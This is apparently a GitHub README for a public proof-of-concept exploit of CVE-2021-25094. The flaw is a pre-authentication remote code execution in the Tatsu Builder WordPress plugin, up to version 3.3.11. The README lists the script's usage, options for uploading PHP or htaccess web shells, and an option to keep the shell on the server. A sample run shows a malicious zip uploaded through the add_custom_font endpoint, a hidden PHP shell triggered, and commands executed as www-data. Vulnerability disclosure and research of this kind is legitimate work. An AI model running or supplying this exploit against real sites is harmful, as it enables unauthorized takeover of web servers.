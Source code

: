 # Preauth RCE in Tatsu builder Wordpress plugin (CVE-2021-25094)

Simple PoC of an unauthenticated RCE in Tatsu Builder <= 3.3.11 provided as an example.

Full write-up here: https://darkpills.com/wordpress-tatsu-builder-preauth-rce-cve-2021-25094/

Usage:
```
python3 exploit-rce.py [-h] [--technique TECHNIQUE] [--customShell CUSTOMSHELL] [--keep KEEP] [--proxy PROXY] [--compressionLevel COMPRESSIONLEVEL] url cmd

positional arguments:
  url                   Wordpress vulnerable URL (example: https://mywordpress.com/)
  cmd                   OS command to execute

optional arguments:
  -h, --help            show this help message and exit
  --technique TECHNIQUE
                        Shell technique: php | htaccess | custom
  --customShell CUSTOMSHELL
                        Provide a custom PHP shell file that will take a base64 cmd as $_POST['text'] input
  --keep KEEP           Do not auto-destruct the uploaded PHP shell
  --proxy PROXY         Specify and use an HTTP proxy (example: http://localhost:8080)
  --compressionLevel COMPRESSIONLEVEL
                        Compression level of the zip file (0 to 9, default 9)
```

Example:
```
└─$ python3 exploit-rce.py http://wordpress/ id
|=== Tatsudo: pre-auth RCE exploit for Tatsu wordpress plugin <= 3.3.11
|=== CVE-2021-25094 / Vincent MICHEL (@darkpills)

[+] Generating a zip with shell technique 'php'
[+] Uploading zip archive to http://wordpress//wp-admin/admin-ajax.php?action=add_custom_font
[+] Upload OK
[+] Trigger shell at http://wordpress/wp-content/uploads/typehub/custom/hjf/.bfzwt.php
[+] Exploit success!
uid=33(www-data) gid=33(www-data) groups=33(www-data)

[+] Shell file has been auto-deleted but parent directory will remain on the webserver
[+] Job done
```
